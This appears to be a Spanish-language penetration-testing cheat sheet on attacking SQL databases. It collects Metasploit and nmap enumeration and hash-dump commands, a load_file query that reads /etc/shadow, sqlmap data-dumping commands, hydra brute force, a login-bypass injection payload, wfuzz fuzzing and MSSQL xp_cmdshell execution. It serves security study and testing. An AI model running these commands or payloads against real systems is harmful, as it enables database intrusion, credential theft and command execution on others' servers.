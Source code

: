 ```yaml
---
title: "SQL"
layout: "single"
category: "Servicios comunes"
slug: "servicios-comunes/sql"
date: "2025-09-30"
---
```


### Enumeración
#### Metasploit
```bash
search type:auxiliary name:mysql
####A través de Mysql con metasploit podemos realizar un escaneo de directorios con permisos de escritura en el sistema.

use auxiliary/scanner/mysql/mysql_writable_dirs

#### Hashdump de usuarios
use auxiliary/scanner/mysql/mysql_hashdump

# Enumeracion del sistema (muy útil)
use auxiliary/admin/mssql/mssql_enum
```
#### Historial SQL
En ocasiones si el historial está visible, podemos encontrar credenciales en el fichero **.mysql.history**

#### Ver contenido fichero .sql
Cuando encontramos un backup de bases de datos, podemos primero probar a hacer un cat al fichero:
```bash
cat mysql_backup.sql
```

#### Enumeracion con nmap
```bash
nmap <ip> -sV -p 3306 --script mysql-empty-password
nmap <ip> -sV -p 3306 --script mysq-info

#Enumerar usuarios bbdd teniendo ya algun usuario de la bbdd
nmap <ip> -sV -p 3306 --script mysql-users --script-args="mysqluser='<usuario>',mysqlpass='<pass>'"

#Enumerar bbdd teniendo ya algun usuario de la bbdd
nmap <ip> -sV -p 3306 --script mysql-databases --script-args="mysqluser='<usuario>',mysqlpass='<pass>'"

#Enumerar hashes 
nmap <ip> -sV -p 3306 --script mysql-dump-hashes --script-args="username='<usuario>',password='<pass>'"
```

### Conexion a la BBDD
#### Con Metasploit
``` bash
use auxiliary/admin/mysql/mysql_sql

## Rellenar datos de conexión a la bbdd
-------------------------------------------------
## Comandos metasploit
set SQL show databases;
run
set SQL use <database_name>;
run
```

```bash
use auxiliary/admin/mysql/mysql_schemadump
## Rellenar datos de conexión a la bbdd
-------------------------------------------------
## Comandos metasploit
services
loot
creds
```
#### Mysql Basics
```bash
mysql -h <ip> -u <usuario> (la pass mejor meterla cuando la pida luego)

mysql -u <usuario> -p<contraseña> -h <servidor> <nombre_de_base_de_datos>

show databases;
use <database_name>;
show tables;
select * from <tabla>;
select * from <tabla> where <condicion> = / > / < <argumento>;

#### LEER FICHEROS DEL SISTEMA
select load_file("/etc/shadow");

#### ver version mysql
SELECT VERSION();

#### ver version mysql desde la maquina sin credenciales
mysql -V
mysql --version

```
### SQLMap

#### SQLinjection a un formulario
Se puede tratar de intentar una inyección SQL contra un panel de login, por ejemplo. También contra una url que parece ser sospechosa de estar haciendo una consulta SQL, por ejemplo: 
**http://ip/products.php?id=7**

Cuando se trata de una SQLi contra un panel de login, se deben añadir los siguientes parámetros, y de la siguiente manera:
```bash
--forms --batch

# --forms justo después de la URL, y --batch al final de la sentencia, ejemplo:
sqlmap -u "http://example.com/index.php?id=1" --forms --dbs --batch

```

#### SQL Injection con request
Teniendo una petición a un sitio donde podamos tratar de inyectar código, por ejemplo un cambio de email o contraseña dentro de un perfil, el cual tenemos credenciales, y por ende una cookie de sesión. Podemos interceptar una petición con burpsuite como esta:

```bash
GET /dashboard.php?id=1 HTTP/1.1

Host: 192.168.117.130

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: PHPSESSID=i5224dcks25bqcmpm6udhgnmmm

Upgrade-Insecure-Requests: 1
```

Metemos esto en un **fichero llamado "request"**  y lo siguiente es:
```bash
sqlmap -r request --dbs --batch
```
#### Enumerar datos de la BBDD
```bash
# Enumerar bases de datos
sqlmap -u "http://example.com/index.php?id=1" --dbs

# Enumerar tablas de una base de datos
sqlmap -u "http://example.com/index.php?id=1" -D <nombre_bbdd> --tables

# Enumerar columnas de una tabla
sqlmap -u "http://example.com/index.php?id=1" -D <nombre_bbdd> -T <nombre_tabla> --columns

# Enumerar todos los datos de una tabla (con sus columnas)
sqlmap -u "http://example.com/index.php?id=1" -D <nombre_bbdd> -T <nombre_tabla> --dump

# Enumerar datos de ciertas columnas
sqlmap -u "http://example.com/index.php?id=1" -D <nombre_bbdd> -T <nombre_tabla> -C columna1,columna2 --dump
```

#### Comandos avanzados
```bash
# shell interactiva con la base de datos
sqlmap -u "http://example.com/index.php?id=1"

# consulta personalizada
sqlmap -u "http://example.com/index.php?id=1" -D <nombre_bbdd> -sql-query "SELECT * FROM ..."

# Listar usuarios y contraseñas de la bbdd
sqlmap -u "http://example.com/index.php?id=1" --users --passwords
```

### Fuerza bruta contra BBDD 
```bash
hydra -l <usuario_conocido> -P <diccionario> mysql://<ip>
use auxiliary/scanner/mysql/mysql_login

#Microsoft SQL Server
nmap <ip> -p 1433 --script ms-sql-brute --script-args userdb=diccionario.txt,passdb=rockyou.txt
```

### Manual SQL injection

#### Basic login bypass

En el campo username, se puede tratar de introducir lo siguiente
```bash
test 'OR 1 = 1;-- -
```

#### SQLi con Wfuzz
Lo ideal es capturar la request con burpsuite y cambiar el método a POST para ver como se tramita la petición para pasarle la URL con los parámetros a wfuzz.
```BASH
```wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u 'http://<IP>/admin.php?username=FUZZ&password=FUZZ'
```


### Command Injection
```bash
# MS SQL Server
nmap <ip> -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<usuario>,mssql.password=<password>,ms-sql-xp-cmdshell.cmd="<comando>"

use auxiliary/admin/mssql/mssql_exec
```


